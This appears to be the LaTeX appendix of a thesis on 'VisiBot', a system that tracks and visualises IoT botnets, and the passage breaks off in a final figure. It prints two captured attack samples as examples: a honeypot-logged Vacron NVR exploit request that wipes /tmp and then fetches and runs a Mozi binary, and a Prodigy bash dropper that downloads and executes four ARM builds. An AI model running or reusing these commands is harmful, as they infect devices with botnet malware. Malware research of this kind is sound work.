\begin{appendices}
\chapter{Appendices}

\section{High-level Overview of VisiBot Processing System}
\label{appendix_a0}
\begin{figure}[!htb]
    \centering
    
\includegraphics[width=1.0\linewidth]{flowcharts/high_level_overview.png}
    \caption{High-level flow-diagram overview of the VisiBot Processing System with sandbox integration.}
    \label{fig:high_level_overview} 
\end{figure}

\newpage

\section{VisiBot MongoDB ER-Diagram}
\label{appendix_a1}
\begin{figure}[!htb]
 \centering
 
\includegraphics[width=1.0\linewidth]{graphs/mongodb_er_diagram.png}
 \caption{Reverse Engineered ER Diagram: VisiBot MongoDB Database.}
\end{figure}

\newpage

\section{Example Bad Packets Honeypot Result}
\label{appendix_a2}
\begin{lstlisting}[caption={Example Bad Packets Honeypot Result, represented in JSON format.}]
{
    "event_id": "fa3d87579d641...",
    "source_ip_address": "127.0.0.1",
    "country": "CN",
    "user_agent": "",
    "payload": "GET /board.cgi?cmd=cd /tmp;rm -rf *;wget http://127.0.0.1:58262/Mozi.a;chmod 777 Mozi.a;/tmp/Mozi.a varcron HTTP/1.0",
    "post_data": "",
    "target_port": 8080,
    "protocol": "tcp",
    "tags": [
        {
            "cve": "",
            "category": "IoT",
            "description": "Vacron NVR RCE"
        }
    ],
    "event_count": 1,
    "first_seen": "2021-01-29T22:13:02Z",
    "last_seen": "2021-01-29T22:13:02Z"
}
\end{lstlisting}

\section{Example Multi-Binary Payload Bash Script}
\label{appendix_a3}
\begin{lstlisting}[caption={An example bash-script used for botnet propagation. Once executed, the script will attempt to download and run 4 binaries of varying architectures.}]
#!/bin/sh
cd /tmp;wget http://[redacted]/Prodigy.arm4;chmod +x Prodigy.arm4;./Prodigy.arm4 ipcam
cd /tmp;wget http://[redacted]/Prodigy.arm5;chmod +x Prodigy.arm5;./Prodigy.arm5 ipcam
cd /tmp;wget http://[redacted]/Prodigy.arm6;chmod +x Prodigy.arm6;./Prodigy.arm6 ipcam
cd /tmp;wget http://[redacted]/Prodigy.arm7;chmod +x Prodigy.arm7;./Prodigy.arm7 ipcam
\end{lstlisting}

\newpage

\section{VisiBot MongoDB ER-Diagram}
\label{appendix_a4}
\begin{figure}[!htbp]
 \centering
 
\includegraphics[width=0.85\linewidth]{flowcharts/low_level_overview.png}
 \caption{Overview flowchart diagram of the VisiBot Processing System.}
\end{figure}


\section{Example of VirusTotal Keyword Extraction}
\label{appendix_a5}
\begin{lstlisting}[escapechar=@, caption={Example of keyword extraction from VirusTotal AV scan results. Positive scans and extracted keywords are highlighted in \textbf{bold}. This example illustrates the extraction of the top-most occurring keyword \textbf{mirai} for the given malware sample.}]
"virustotal": {
    "scans": {
        "AV_1": {
            "detected": false,
            "result": null,
            "update": "20210306"
        },
        "AV_2": {
            "detected": @\textbf{true}@,
            "version": "...",
            "result": "Trojan.GenericKD.44832991",
            "update": "20210307"
        },
        "AV_3": {
            "detected": @\textbf{true}@,
            "result": "Trojan.@\textbf{Mirai}@.Linux.78021",
            "update": "20210304"
        },
        "AV_4": {
            "detected": false,
            "result": null,
            "update": "20210305"
        },
        "AV_5": {
            "detected": @\textbf{true}@,
            "result": "a variant of Linux/@\textbf{Mirai}@.A",
            "update": "20210307"
        },
        "AV_6": {
            "detected": @\textbf{true}@,
            "result": "Backdoor.Linux.@\textbf{MIRAI}@.",
            "update": "20210307"
        },
        ...
    }
}
\end{lstlisting}

\newpage

\section{VisiBot Web Application: Peer-to-Peer visualisation}
\label{appendix_a6}
\begin{figure}[!htb]
    \centering
